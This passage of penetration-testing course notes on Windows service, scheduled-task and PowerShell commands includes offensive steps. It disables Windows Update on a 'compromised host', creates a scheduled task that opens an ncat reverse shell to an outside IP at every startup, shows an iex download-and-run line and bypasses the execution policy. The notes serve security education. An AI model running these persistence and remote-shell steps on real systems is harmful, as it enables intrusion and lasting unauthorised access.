        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

It is important to note that not all services will respond to these requests, regardless of our permissions, especially if other running programs and services depend on the service we are attempting to stop.

#### Starting Services

```
C:\WINDOWS\system32> sc start Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 34908
        FLAGS              :


C:\WINDOWS\system32> sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### Modifying Services

In addition to being able to start and stop services, we can also attempt to modify existing services as well. This is where attackers can thrive as we try to modify existing services to serve whatever purpose we need them to. In some cases, we can change them to be disabled at startup or modify the service's path to the binary itself.

To configure services, we must use the config parameter in sc. This will allow us to modify the values of existing services, regardless if they are currently running or not. All changes made with this command are reflected in the Windows registry as well as the database for Service Control Manager (SCM). Remember that all changes to existing services will only fully update after restarting the service.

Note: It is important to be aware that modifying existing services can effectively take them out permanently as any changes made are recorded and saved in the registry, which can persist on reboot. Please exercise caution when modifying services in this manner.

With all this information out of the way, let's try to take out Windows Updates (`wuauserv` and `bits`)for our current compromised host.

```PowerShell
# Note: this requires elevated privileges, standar users don't have permissions on these services

C:\WINDOWS\system32> sc query wuauserv

SERVICE_NAME: wuauserv
        TYPE               : 30  WIN32
        STATE              : 1  STOPPED # its stopped
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


C:\WINDOWS\system32> sc query bits

SERVICE_NAME: bits
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING # it s running, we can issue a stop
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_PRESHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

# stopping
C:\WINDOWS\system32> sc stop bits

SERVICE_NAME: bits
        TYPE               : 30  WIN32
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x0

# Disabling at start, use start= auto to enable them back
C:\WINDOWS\system32> sc config wuauserv start= disabled

[SC] ChangeServiceConfig SUCCESS


C:\WINDOWS\system32> sc config bits start= disabled

[SC] ChangeServiceConfig SUCCESS

# Verifying they're disabled by trying to start them
C:\WINDOWS\system32> sc start wuauserv 

[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.

C:\WINDOWS\system32> sc start bits

[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
```

### Using Tasklist

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist) is a command line tool that gives us a list of currently running processes on a local or remote host. However, we can utilize the `/svc` parameter to provide a list of services running under each process on the system. Let's look at some of the output this can provide.

```
C:\htb> tasklist /svc


Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                       108 N/A
smss.exe                       412 N/A
csrss.exe                      612 N/A
wininit.exe                    684 N/A
csrss.exe                      708 N/A
services.exe                   768 N/A
lsass.exe                      796 KeyIso, SamSs, VaultSvc
winlogon.exe                   856 N/A
svchost.exe                    984 BrokerInfrastructure, DcomLaunch, PlugPlay,
                                   Power, SystemEventsBroker
fontdrvhost.exe               1012 N/A
fontdrvhost.exe               1020 N/A
svchost.exe                    616 RpcEptMapper, RpcSs
svchost.exe                    996 LSM
dwm.exe                       1068 N/A
svchost.exe                   1236 CoreMessagingRegistrar
svchost.exe                   1244 lmhosts
svchost.exe                   1324 NcbService
svchost.exe                   1332 TimeBrokerSvc
svchost.exe                   1352 Schedule
<SNIP>
```

### Using Net Start

[Net start](https://ss64.com/nt/net-service.html) is a very simple command that will allow us to quickly list all of the current running services on a system. In addition to net start, there is also `net stop`, `net pause`, and `net continue`. These will behave very similarly to `sc` as we can provide the name of the service afterward and be able to perform the actions specified in the command against the service that we provide.

```
C:\htb> net start

These Windows services are started:

   Application Information
   AppX Deployment Service (AppXSVC)
   AVCTP service
   Background Tasks Infrastructure Service
   Base Filtering Engine
   BcastDVRUserService_3321a
   Capability Access Manager Service
   cbdhsvc_3321a
   CDPUserSvc_3321a
   Client License Service (ClipSVC)
   CNG Key Isolation
   COM+ Event System
   COM+ System Application
   Connected Devices Platform Service
   Connected User Experiences and Telemetry
   CoreMessaging
   Credential Manager
   Cryptographic Services
   Data Usage
   DCOM Server Process Launcher
   Delivery Optimization
   Device Association Service
   DHCP Client
   <SNIP>
```

### Using WMIC (deprecated)

Last but not least, we have [WMIC](https://ss64.com/nt/wmic.html). The Windows Management Instrumentation Command (`WMIC`) allows us to retrieve a vast range of information from our local host or host(s) across the network. The versatility of this command is wide in that it allows for pulling such a wide arrangement of information.

```
C:\htb> wmic service list brief

ExitCode  Name                                      ProcessId  StartMode  State    Status
1077      AJRouter                                  0          Manual     Stopped  OK
1077      ALG                                       0          Manual     Stopped  OK
1077      AppIDSvc                                  0          Manual     Stopped  OK
0         Appinfo                                   5016       Manual     Running  OK
1077      AppMgmt                                   0          Manual     Stopped  OK
1077      AppReadiness                              0          Manual     Stopped  OK
1077      AppVClient                                0          Disabled   Stopped  OK
0         AppXSvc                                   9996       Manual     Running  OK
1077      AssignedAccessManagerSvc                  0          Manual     Stopped  OK
0         AudioEndpointBuilder                      2076       Auto       Running  OK
0         Audiosrv                                  2332       Auto       Running  OK
1077      autotimesvc                               0          Manual     Stopped  OK
1077      AxInstSV                                  0          Manual     Stopped  OK
1077      BDESVC                                    0          Manual     Stopped  OK
0         BFE                                       2696       Auto       Running  OK
0         BITS                                      0          Manual     Stopped  OK
0         BrokerInfrastructure                      984        Auto       Running  OK
1077      BTAGService                               0          Manual     Stopped  OK
0         BthAvctpSvc                               4448       Manual     Running  OK
1077      bthserv                                   0          Manual     Stopped  OK
0         camsvc                                    5676       Manual     Running  OK
0         CDPSvc                                    4724       Auto       Running  OK
1077      CertPropSvc                               0          Manual     Stopped  OK
0         ClipSVC                                   9156       Manual     Running  OK
1077      cloudidsvc                                0          Manual     Stopped  OK
0         COMSysApp                                 3668       Manual     Running  OK
0         CoreMessagingRegistrar                    1236       Auto       Running  OK
0         CryptSvc                                  2844       Auto       Running  OK
<SNIP>
```
## Schedueled tasks

#### Query Syntax
|Action | Parameter | Description|
|-------|-----------|------------|
|`Query` | | Performs a local or remote host search to determine what scheduled tasks exist. Due to permissions, not all tasks may be seen by a normal user.|
| |	`/fo` | Sets formatting options. We can specify to show results in the `Table`, `List`, or `CSV` output.|
| |	`/v` | Sets verbosity to on, displaying the `advanced properties` set in displayed tasks when used with the List or CSV output parameter.|
| |	`/nh` | Simplifies the output using the Table or CSV output format. This switch `removes` the `column headers`.|
| |	`/s` | Sets the DNS name or IP address of the host we want to connect to. `Localhost` is the `default` specified. If `/s` is utilized, we are connecting to a remote host and must format it as "\\host".|
| |	`/u` | This switch will tell schtasks to run the following command with the `permission set` of the `user` specified.|
| |	`/p` | Sets the `password` in use for command execution when we specify a user to run the task. Users must be members of the Administrator's group on the host (or in the domain). The `u` and `p` values are only valid when used with the `s` parameter.|
|

We can view the tasks that already exist on our host by utilizing the schtasks command like so:
```
C:\htb> SCHTASKS /Query /V /FO list

Folder: \  
HostName:                             DESKTOP-Victim
TaskName:                             \Check Network Access
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-Victim\htb-admin
Task To Run:                          C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In:                             N/A
Comment:                              quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```

#### Create a new scheduled Task

|Action |Parameter |Description|
|-------|----------|-----------|
|`Create` ||Schedules a task to run.|
||`/sc` |Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.|
||`/tn` |Sets the name for the task we are building. Each task must have a unique name.|
||`/tr` |Sets the trigger and task that should be run. This can be an executable, script, or batch file.|
||`/s` |Specify the host to run on, much like in Query.|
||`/u` |Specifies the local user or domain user to utilize|
||`/p` |Sets the Password of the user-specified.|
||`/mo` |Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.|
||`/rl` |Allows us to limit the privileges of the task. Options here are `limited` access and `Highest`. `Limited` is the default value.|
||`/z` |Will set the task to be deleted after completion of its actions.|

At minimum we must specify:

- /create : to tell it what we are doing
- /sc : we must set a schedule
- /tn : we must set the name
- /tr : we must give it an action to take

#### New Task Creation example

```
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

Start a remote shell on each startup to ensure we always have access if host is up. In this can it will connect to out command and control framework (Metasploit, Empire, etc.) and give us shell access.

####Change Syntax

|Action |Parameter |Description|
|----- |----- |-----|
|Change ||Allows for modifying existing scheduled tasks.|
||/tn |Designates the task to change|
||/tr |Modifies the program or action that the task runs.|
||/ENABLE |Change the state of the task to Enabled.|
||/DISABLE |Change the state of the task to Disabled.|

Say we found the has of the local admin password and we want to spawn our Ncat shell. If anything happens, we can modify the task like so to add in the credentials for it to use.

```
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.


C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```

#### Delete the Scheduled task

|Action |Parameter |Description|
|-------|----------|-----------|
|Delete ||Remove a task from the schedule|
||/tn |Identifies the task to delete.|
||/s |Specifies the name or IP address to delete the task from.|
||/u |Specifies the user to run the task as.|
||/p |Specifies the password to run the task as.|
||/f |Stops the confirmation warning.|

```
C:\htb> schtasks /delete  /tn "My Secret Task" 

WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```

# PowerShell

## CMD vs PowerShell

|Feature |CMD |PowerShell|
|--------|----|----------|
|Language |Batch and basic CMD commands only. |PowerShell can interpret Batch, CMD, PS cmdlets, and aliases.|
|Command utilization |The output from one command cannot be passed into another directly as a structured object, due to the limitation of handling the text output. |The output from one command can be passed into another directly as a structured object resulting in more sophisticated commands.|
|Command Output |Text only. |PowerShell outputs in object formatting.|
|Parallel Execution |CMD must finish one command before running another. |PowerShell can multi-thread commands to run in parallel.|

[PowerShell](https://learn.microsoft.com/en-us/powershell/) has become increasingly prominent among IT and Infosec professionals. It has widespread utility for System Administrators, Penetration Testers, SOC Analysts, and many other technical disciplines where ever Windows systems are administered. Consider IT admins and Windows system administrators administering IT environments made up of Windows servers, desktops (Windows 10 & 11), Azure, and Microsoft 365 cloud-based applications. Many of them are using PowerShell to automate tasks they must accomplish daily. Among some of these tasks are:

- Provisioning servers and installing server roles
- Creating Active Directory user accounts for new employees
- Managing Active Directory group permissions
- Disabling and deleting Active Directory user accounts
- Managing file share permissions
- Interacting with Azure AD and Azure VMs
- Creating, deleting, and monitoring directories & files
- Gathering information about workstations and servers
- Setting up Microsoft Exchange email inboxes for users (in the cloud &/or on-premises)

You can open powershell with the applications
 - Windows PowerShell
 - Windows Terminal
 - Windows Powershell ISE (Powershell IDE)
 - cmd, the typing the `powershell` command

Get help with [Get-Help](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/get-help?view=powershell-7.5&viewFallbackFrom=powershell-7.2):
```PowerShell
PS C:\Users\htb-student> Get-Help Test-Wsman

NAME
    Test-WSMan

SYNTAX
    Test-WSMan [[-ComputerName] <string>] [-Authentication {None | Default | Digest | Negotiate | Basic | Kerberos |
    ClientCertificate | Credssp}] [-Port <int>] [-UseSSL] [-ApplicationName <string>] [-Credential <pscredential>]
    [-CertificateThumbprint <string>]  [<CommonParameters>]


ALIASES
    None


REMARKS
    Get-Help cannot find the Help files for this cmdlet on this computer. It is displaying only partial help.
        -- To download and install Help files for the module that includes this cmdlet, use Update-Help.
        -- To view the Help topic for this cmdlet online, type: "Get-Help Test-WSMan -Online" or
           go to https://go.microsoft.com/fwlink/?LinkId=141464.
```

Notice the `-online` command. You can use this to get the oneline documentation of a command with say `Get-Help Test-Wsman -online` for the Test-WSMan microsoft documentation.

We can also use a helpful cmdlet called [Update-Help](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/update-help?view=powershell-7.2) to ensure we have the most up-to-date information for each cmdlet on the Windows system.

### Getting Around in PowerShell

(PS stands for PowerShell.)
```PowerShell
# Where are we
PS C:\Users\DLarusso> Get-Location

Path
----
C:\Users\DLarusso


#List directory contents
PS C:\htb> Get-ChildItem 

Directory: C:\Users\DLarusso


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/26/2021  10:26 PM                .ssh
d-----         1/28/2021   7:05 PM                .vscode
d-r---         1/27/2021   2:44 PM                3D Objects
d-r---         1/27/2021   2:44 PM                Contacts
d-r---         9/18/2022  12:35 PM                Desktop
d-r---         9/18/2022   1:01 PM                Documents
d-r---         9/26/2022  12:27 PM                Downloads
d-r---         1/27/2021   2:44 PM                Favorites
d-r---         1/27/2021   2:44 PM                Music
dar--l         9/26/2022  12:03 PM                OneDrive
d-r---         5/22/2022   2:00 PM                Pictures


# Move to a directory (can be done with relative or absolute path)
PS C:\htb>  Set-Location .\Documents\

PS C:\Users\tru7h\Documents> Get-Location

Path
----
C:\Users\DLarusso\Documents


# Display file contents
PS C:\htb> Get-Content Readme.md  

# ![logo][] PowerShell

Welcome to the PowerShell GitHub Community!
PowerShell Core is a cross-platform (Windows, Linux, and macOS) automation and configuration tool/framework that works well with your existing tools and is optimized
for dealing with structured data (e.g., JSON, CSV, XML, etc.), REST APIs, and object models.
It includes a command-line shell, an associated scripting language and a framework for processing cmdlets. 

<SNIP> 
```

### Tips & Tricks for PowerShell Usage

```PowerShell
# list available commands
PS C:\htb> Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Add-AppPackage                                     2.0.1.0    Appx
Alias           Add-AppPackageVolume                               2.0.1.0    Appx
Alias           Add-AppProvisionedPackage                          3.0        Dism
Alias           Add-ProvisionedAppPackage                          3.0        Dism
Alias           Add-ProvisionedAppxPackage                         3.0        Dism
Alias           Add-ProvisioningPackage                            3.0        Provisioning
Alias           Add-TrustedProvisioningCertificate                 3.0        Provisioning
Alias           Apply-WindowsUnattend                              3.0        Dism
Alias           Disable-PhysicalDiskIndication                     2.0.0.0    Storage
Alias           Disable-StorageDiagnosticLog                       2.0.0.0    Storage
Alias           Dismount-AppPackageVolume                          2.0.1.0    Appx
Alias           Enable-PhysicalDiskIndication                      2.0.0.0    Storage
Alias           Enable-StorageDiagnosticLog                        2.0.0.0    Storage
Alias           Flush-Volume                                       2.0.0.0    Storage
Alias           Get-AppPackage                                     2.0.1.0    Appx

<SNIP>  

# using the ver-noun convention, we can search for either, eg:
PS C:\htb> Get-Command -verb get

<SNIP>
Cmdlet          Get-Acl                                            3.0.0.0    Microsoft.Pow...
Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.Pow...
Cmdlet          Get-AppLockerFileInformation                       2.0.0.0    AppLocker
Cmdlet          Get-AppLockerPolicy                                2.0.0.0    AppLocker
Cmdlet          Get-AppvClientApplication                          1.0.0.0    AppvClient  
<SNIP>  

PS C:\htb> Get-Command -noun windows*  

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Apply-WindowsUnattend                              3.0        Dism
Function        Get-WindowsUpdateLog                               1.0.0.0    WindowsUpdate
Cmdlet          Add-WindowsCapability                              3.0        Dism
Cmdlet          Add-WindowsDriver                                  3.0        Dism
Cmdlet          Add-WindowsImage                                   3.0        Dism
Cmdlet          Add-WindowsPackage                                 3.0        Dism
Cmdlet          Clear-WindowsCorruptMountPoint                     3.0        Dism
Cmdlet          Disable-WindowsErrorReporting                      1.0        WindowsErrorR...
Cmdlet          Disable-WindowsOptionalFeature                     3.0        Dism
Cmdlet          Dismount-WindowsImage                              3.0        Dism
Cmdlet          Enable-WindowsErrorReporting                       1.0        WindowsErrorR...
Cmdlet          Enable-WindowsOptionalFeature                      3.0        Dism

# History
# By default, PowerShell keeps the last 4096 commands entered, but this setting can be modified by changing the $MaximumHistoryCount variable.
# By default, Get-History will only show the commands that have been run during this active session
PS C:\htb> Get-History

 Id CommandLine
  -- -----------
   1 Get-Command
   2 clear
   3 get-command -verb set
   4 get-command set*
   5 clear
   6 get-command -verb get
   7 get-command -noun windows
   8 get-command -noun windows*
   9 get-module
  10 clear
  11 get-history
  12 clear
  13 ipconfig /all
  14 arp -a
  15 get-help
  16 get-help get-module


#read from PSReadline to get full history
PS C:\htb> get-content C:\Users\DLarusso\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

get-module
Get-ChildItem Env: | ft Key,Value
Get-ExecutionPolicy
clear
ssh administrator@10.172.16.110.55
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://download.sysinternals.com/files/PSTools.zip')"
Get-ExecutionPolicy

<SNIP>
# One great feature of PSReadline from an admin perspective is that it will automatically attempt to filter any entries that include the strings: password, asplaintext, token, apikey, secret.


# Clear screen
Clear-Host
clear
cls

# Show command alias
PS C:\Windows\system32> Get-Alias

CommandType     Name                                               Version    Source
                                                                              
-----------     ----                                               -------    -----
Alias           % -> ForEach-Object
Alias           ? -> Where-Object
Alias           ac -> Add-Content
Alias           asnp -> Add-PSSnapin
Alias           cat -> Get-Content
Alias           cd -> Set-Location
Alias           CFS -> ConvertFrom-String                          3.1.0.0    Mi...
Alias           chdir -> Set-Location
Alias           clc -> Clear-Content
Alias           clear -> Clear-Host
Alias           clhy -> Clear-History
Alias           cli -> Clear-Item
Alias           clp -> Clear-ItemProperty
Alias           cls -> Clear-Host
Alias           clv -> Clear-Variable
Alias           cnsn -> Connect-PSSession
Alias           compare -> Compare-Object
Alias           copy -> Copy-Item
Alias           cp -> Copy-Item
Alias           cpi -> Copy-Item
Alias           cpp -> Copy-ItemProperty
Alias           curl -> Invoke-WebRequest
Alias           cvpa -> Convert-Path
Alias           dbp -> Disable-PSBreakpoint
Alias           del -> Remove-Item
Alias           diff -> Compare-Object
Alias           dir -> Get-ChildItem

<SNIP>

# Create Alias
PS C:\Windows\system32> Set-Alias -Name gh -Value Get-Help
```

### Helpful alias

|Alias |Description|
|------|------------|
|pwd |gl can also be used. This alias can be used in place of Get-Location.|
|ls |dir and gci can also be used in place of ls. This is an alias for Get-ChildItem.|
|cd |sl and chdir can be used in place of cd. This is an alias for Set-Location.|
|cat |type and gc can also be used. This is an alias for Get-Content.|
|clear |Can be used in place of Clear-Host.|
|curl |Curl is an alias for Invoke-WebRequest, which can be used to download files. wget can also be used.|
|fl and ft |These aliases can be used to format output into list and table outputs.|
|man |Can be used in place of help.|
| ?  | Where-Object|
| %  | ForEach-Object |

### Hotkeys

|HotKey |Description|
|-------|-----------|
|CTRL+R |It makes for a searchable history. We can start typing after, and it will show us results that match previous commands.|
|CTRL+L |Quick screen clear.|
|CTRL+ALT+Shift+? |This will print the entire list of keyboard shortcuts PowerShell will recognize.|
|Escape |When typing into the CLI, if you wish to clear the entire line, instead of holding backspace, you can just hit escape, which will erase the line.|
|↑ |Scroll up through our previous history.|
|↓ |Scroll down through our previous history.|
|F7 |Brings up a TUI with a scrollable interactive history from our session.|


## All About Cmdlets and Modules

#### Cmdlets

A [cmdlet](https://learn.microsoft.com/en-us/powershell/scripting/lang-spec/chapter-13?view=powershell-7.5&viewFallbackFrom=powershell-7.2) as defined by Microsoft is:

"`a single-feature command that manipulates objects in PowerShell.`"

Cmdlets follow a Verb-Noun structure which often makes it easier for us to understand what any given cmdlet does. With Test-WSMan, we can see the verb is Test and the Noun is Wsman.

### PowerShell modules

A [PowerShell module](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/understanding-a-windows-powershell-module?view=powershell-7.2) is structured PowerShell code that is made easy to use & share. As mentioned in the official Microsoft docs, a module can be made up of the following:
- Cmdlets
- Script files
- Functions
- Assemblies
- Related resources (manifests and help files)

Through this section, we are going to use the PowerView project to examine what makes up a module and how to interact with them. `PowerView.ps1` is part of a collection of PowerShell modules organized in a project called [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) created by the [PowerShellMafia](https://github.com/PowerShellMafia/PowerSploit) to provide penetration testers with many valuable tools to use when testing Windows Domain/Active Directory environments.

### Using PowerShell modules

```PowerShell
PS C:\htb> Get-Module 

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Con...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.7.3.1    posh-git                            {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expan...
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...


PS C:\htb> Get-Module -ListAvailable 

 Directory: C:\Users\tru7h\Documents\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     1.1.0      PSSQLite                            {Invoke-SqliteBulkCopy, Invoke-SqliteQuery, New-SqliteConn...


    Directory: C:\Program Files\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     1.0.1      Microsoft.PowerShell.Operation.V... {Get-OperationValidation, Invoke-OperationValidation}
Binary     1.0.0.1    PackageManagement                   {Find-Package, Get-Package, Get-PackageProvider, Get-Packa...
Script     3.4.0      Pester                              {Describe, Context, It, Should...}
Script     1.0.0.1    PowerShellGet                       {Install-Module, Find-Module, Save-Module, Update-Module...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Set-PSReadLineKeyHandler, Remov...

# Look at Import-Module for how to load a module
PS C:\Users\htb-student> Get-Help Import-Module

NAME
    Import-Module

SYNOPSIS
    Adds modules to the current session.


SYNTAX
    Import-Module [-Assembly] <System.Reflection.Assembly[]> [-Alias <System.String[]>] [-ArgumentList
    <System.Object[]>] [-AsCustomObject] [-Cmdlet <System.String[]>] [-DisableNameChecking] [-Force] [-Function
    <System.String[]>] [-Global] [-NoClobber] [-PassThru] [-Prefix <System.String>] [-Scope {Local | Global}]
    [-Variable <System.String[]>] [<CommonParameters>]

    Import-Module [-Name] <System.String[]> [-Alias <System.String[]>] [-ArgumentList <System.Object[]>]
    [-AsCustomObject] [-CimNamespace <System.String>] [-CimResourceUri <System.Uri>] -CimSession
    <Microsoft.Management.Infrastructure.CimSession> [-Cmdlet <System.String[]>] [-DisableNameChecking] [-Force]
    [-Function <System.String[]>] [-Global] [-MaximumVersion <System.String>] [-MinimumVersion <System.Version>]
    [-NoClobber] [-PassThru] [-Prefix <System.String>] [-RequiredVersion <System.Version>] [-Scope {Local | Global}]
    [-Variable <System.String[]>] [<CommonParameters>]

<SNIP>

# Let's import the powersploit module to get the `Get-NetLocalgroup` cmdlet
PS C:\Users\htb-student\Desktop\PowerSploit> Import-Module .\PowerSploit.psd1
PS C:\Users\htb-student\Desktop\PowerSploit> Get-NetLocalgroup

ComputerName GroupName                           Comment
------------ ---------                           -------
WS01         Access Control Assistance Operators Members of this group can remotely query authorization attributes a...
WS01         Administrators                      Administrators have complete and unrestricted access to the compute...
WS01         Backup Operators                    Backup Operators can override security restrictions for the sole pu...
WS01         Cryptographic Operators             Members are authorized to perform cryptographic operations.
WS01         Distributed COM Users               Members are allowed to launch, activate and use Distributed COM obj...
WS01         Event Log Readers                   Members of this group can read event logs from local machine
WS01         Guests                              Guests have the same access as members of the Users group by defaul...
WS01         Hyper-V Administrators              Members of this group have complete and unrestricted access to all ...
WS01         IIS_IUSRS                           Built-in group used by Internet Information Services.
WS01         Network Configuration Operators     Members in this group can have some administrative privileges to ma...
WS01         Performance Log Users               Members of this group may schedule logging of performance counters,...
WS01         Performance Monitor Users           Members of this group can access performance counter data locally a...
WS01         Power Users                         Power Users are included for backwards compatibility and possess li...
WS01         Remote Desktop Users                Members in this group are granted the right to logon remotely
WS01         Remote Management Users             Members of this group can access WMI resources over management prot...
WS01         Replicator                          Supports file replication in a domain
WS01         System Managed Accounts Group       Members of this group are managed by the system.
WS01         Users                               Users are prevented from making accidental or intentional system-wi...


# if we have trouble with loading module (ie non imported ones) we can check our PSModulePath to check that it is indeed present
PS C:\Users\htb-student> $env:PSModulePath

C:\Users\htb-student\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
```

### Execution Policy

An essential factor to consider when attempting to use PowerShell scripts and modules is [PowerShell's execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2). As outlined in Microsoft's official documentation, an execution policy is not a security control. It is designed to give IT admins a tool to set parameters and safeguards for themselves.

```PowerShell
PS C:\Users\htb-student\Desktop\PowerSploit> Import-Module .\PowerSploit.psd1

Import-Module : File C:\Users\Users\htb-student\PowerSploit.psm1
cannot be loaded because running scripts is disabled on this system. For more information, see
about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\PowerSploit.psd1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand

# Check Execution Policy
PS C:\htb> Get-ExecutionPolicy 

Restricted  

# Changin execution policy
PS C:\htb> Set-ExecutionPolicy undefined 

# testing it out
PS C:\htb> Import-Module .\PowerSploit.psd1

Import-Module .\PowerSploit.psd1
PS C:\Users\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Check...
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, Conver...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Vari...
Script     3.0.0.0    PowerSploit                         {Add-Persistence, Add-ServiceDacl...
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PS...
```

Note: As a sysadmin, these kinds of changes are common and should always be reverted once we are done with work. As a pentester, us making a change like this and not reverting it could indicate to a defender that the host has been compromised. Be sure to check that we clean up after our actions. Another way we can bypass the execution policy and not leave a persistent change is to change it at the process level using `-scope`.

```PowerShell
# Changing execution policy by scope
PS C:\htb> Set-ExecutionPolicy -scope Process 
PS C:\htb> Get-ExecutionPolicy -list

Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process          Bypass
  CurrentUser       Undefined
 LocalMachine          Bypass  
```

By changing it at the Process level, our change will revert once we close the PowerShell session. More detail in this [blog post](https://www.netspi.com/blog/technical-blog/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/).

### Calling Cmdlets from within a module

```PowerShell
# list available aliases, commands, and functions an imported module brough to a session: Get-Command -Module <modulename>
PS C:\htb> Get-Command -Module PowerSploit

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Invoke-ProcessHunter                               3.0.0.0    PowerSploit
Alias           Invoke-ShareFinder                                 3.0.0.0    PowerSploit
Alias           Invoke-ThreadedFunction                            3.0.0.0    PowerSploit
